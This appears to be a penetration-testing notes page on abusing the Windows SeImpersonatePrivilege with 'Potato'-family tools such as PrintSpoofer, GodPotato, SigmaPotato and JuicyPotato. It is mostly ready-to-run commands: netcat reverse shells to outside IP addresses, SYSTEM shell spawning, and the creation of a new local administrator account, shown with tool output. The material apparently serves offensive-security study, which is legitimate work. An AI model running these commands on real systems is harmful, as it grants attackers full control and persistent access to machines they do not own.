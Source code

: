 # SeImpersonatePrivilege

The `SeImpersonatePrivilege` allows a user to operate under another user's security context, typically by impersonating clients via mechanisms like **named pipes** or **RPC**.&#x20;

{% hint style="info" %}
**Named pipes** are a method of **inter-process communication (IPC)** in Windows. They let two separate processes—either on the same system or across a network—**send and receive data** as if they were reading/writing to a file. Think of a named pipe as a **virtual file** that one process (the server) creates and waits on, while another (the client) connects to it using a known name (like `\\.\pipe\mypipe`). Once connected, both processes can exchange data in real time.
{% endhint %}

The `SeImpersonate` privilege is normally assigned to Administrator accounts and built-in service accounts like `LOCAL SERVICE`, `NETWORK SERVICE`, and `SERVICE`. While rare for standard users, it is often accessible when gaining code execution through services like IIS, which commonly run under accounts that have it. In the context of **privilege escalation**, named pipes can be abused when a **privileged process connects** to a pipe controlled by a lower-privileged attacker. If the attacker has `SeImpersonatePrivilege`, they can **impersonate the connecting user**, effectively hijacking their permissions.

## PoCs

{% tabs %}
{% tab title="1. OS Build" %}
Check the OS build and map its version:

```powershell
>ver
Microsoft Windows [Version 10.0.18362.719]

>systeminfo
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.18362 N/A Build 18362
```

<figure><img src="../../../../../../.gitbook/assets/version_build_win.png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="2. Spooler" %}
For versions between `1809` - `1909` check if the Spooler service is runing:

```powershell
# Check if Spooler is running
>sc query Spooler

SERVICE_NAME: Spooler
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED

> Get-Service -Name Spooler

Status   Name               DisplayName
------   ----               -----------
Stopped  Spooler            Print Spooler
```
{% endtab %}

{% tab title="3. PoC" %}
Check the table below:

<figure><img src="../../../../../../.gitbook/assets/potatoes_pocs.jpg" alt=""><figcaption></figcaption></figure>
{% endtab %}
{% endtabs %}

<table><thead><tr><th width="127">Exploit</th><th width="212">Target Mechanism</th><th>Typical Use Case / Notes</th><th>OS Compatibility</th></tr></thead><tbody><tr><td><strong>JuicyPotato</strong></td><td>COM objects implementing <code>IMarshal</code></td><td>Flexible; works with many COM objects. Use <code>-z</code> to test CLSID first.</td><td>Most Windows versions (Server 2008 SP1 and up, including 10/11)</td></tr><tr><td><strong>PrintSpoofer</strong></td><td>RPC / Named Pipes (Print Spooler API)</td><td>Fast and reliable; requires Print Spooler service to be running.</td><td>Windows 10 / 2016–2019 (some patched)</td></tr><tr><td><strong>GodPotato</strong></td><td>COM Server Hijack</td><td>Use when PrintSpoofer is patched; requires specific COM object.</td><td>Newer Windows (10/11)</td></tr><tr><td><strong>SigmaPotato</strong></td><td>Event Log Service / Spooler / WMI</td><td>Fallback when PrintSpoofer and GodPotato fail; depends on legacy service configuration.</td><td>Windows 10+ (better on newer builds)</td></tr></tbody></table>

{% tabs %}
{% tab title="PrintSpofer" %}
[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) is a local privilege escalation exploit that abuses the `SeImpersonatePrivilege` to impersonate the `SYSTEM` account via a named pipe trick. It can be leveraged to sent a reverse shell or execute commands directly:

```powershell
# Reverse shell
PrintSpoofer.exe -c "nc.exe 10.10.13.37 1337 -e cmd"

# Command execution
PrintSpoofer.exe -i -c cmd
```

It can also be used to spawn a `SYSTEM` shell on the desktop, for instance, when logged in via an RDP session:

```powershell
# Check your session ID
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>rdp-tcp           lab-user                  3  Active
 
# Spawn a new shell
C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
```
{% endtab %}

{% tab title="GodPotato" %}
[GodPotato](https://github.com/BeichenDream/GodPotato) is a local privilege escalation exploit that abuses `COM` and `SeImpersonatePrivilege` to impersonate `SYSTEM` by hijacking privileged tokens via named pipes.

```powershell
# Reverse shell
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"

# Command execution
GodPotato -cmd "cmd /c whoami"
```
{% endtab %}

{% tab title="SigmaPotato" %}
[SigmaPotato](https://github.com/tylerdotrar/SigmaPotato) is a local privilege escalation exploit that leverages the `SeImpersonatePrivilege` and the Event Log service to hijack a `SYSTEM` token through named pipe impersonation.

```powershell
# Reverse shell
./SigmaPotato.exe --revshell <ip_addr> <port>

# Command execution
./SigmaPotato.exe <command>
```

It can be also used to create a new local administrator:

```powershell
> .\sigmapotato.exe "net user dave4 Pass123! /add"
[+] Process Output:
The command completed successfully.


> .\sigmapotato.exe "net localgroup Administrators dave4 /add"
[+] Process Output:
The command completed successfully.

> Get-LocalGroupMember administrators
User        CLIENTWK220\dave4         Local
```
{% endtab %}

{% tab title="JuicyPotato" %}
[JuicyPotato](https://github.com/ohpe/juicy-potato) is a Windows privilege escalation tool that elevates service account privileges to `NT AUTHORITY\SYSTEM` by exploiting COM objects with `SeImpersonatePrivilege`. It instantiates vulnerable COM classes, triggers local NTLM authentication, and executes arbitrary commands with `SYSTEM`-level access. The tool allows specifying CLSID, port, and target executable, making it effective when traditional escalation methods are blocked or systems are hardened. Various CLSID lists can be found [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID).

{% code overflow="wrap" %}
```bash
> Juicy.Potato.x86.exe -p c:\windows\system32\cmd.exe -t * -a "/c C:\wamp\www\nc.exe 192.168.45.241 80 -e cmd.exe" -l 80 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 80
....
[+] authresult 0
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
​
[+] CreateProcessWithTokenW OK
```
{% endcode %}
{% endtab %}

{% tab title="RoguePotato" %}
WIP ([RoguePotato](https://github.com/antonioCoco/RoguePotato))
{% endtab %}
{% endtabs %}

## To Test

> Based on: [https://jlajara.gitlab.io/Potatoes\_Windows\_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

1. Sweet Potato as the go to?
2. ≥ Win 10 1809 / Server 2019 -> RoguePotato
3. < Win 10 1809 / Server 2019 -> JuicyPotato



* HotPotato for Win 7,8,10 / Server 2008 and 2012
* JuicyPotato ->  < Win 10 1809 / Server 2019
* RoguePotato ->
* SweetPotato ([https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)) -> Combination of RottenPotato, JuicyPotato, PrintSpoofer, EfsPotato, PetitPotam
* GenericPotato ([https://github.com/micahvandeusen/GenericPotato](https://github.com/micahvandeusen/GenericPotato)) -> modified SweetPotato, when Spooler isn't running

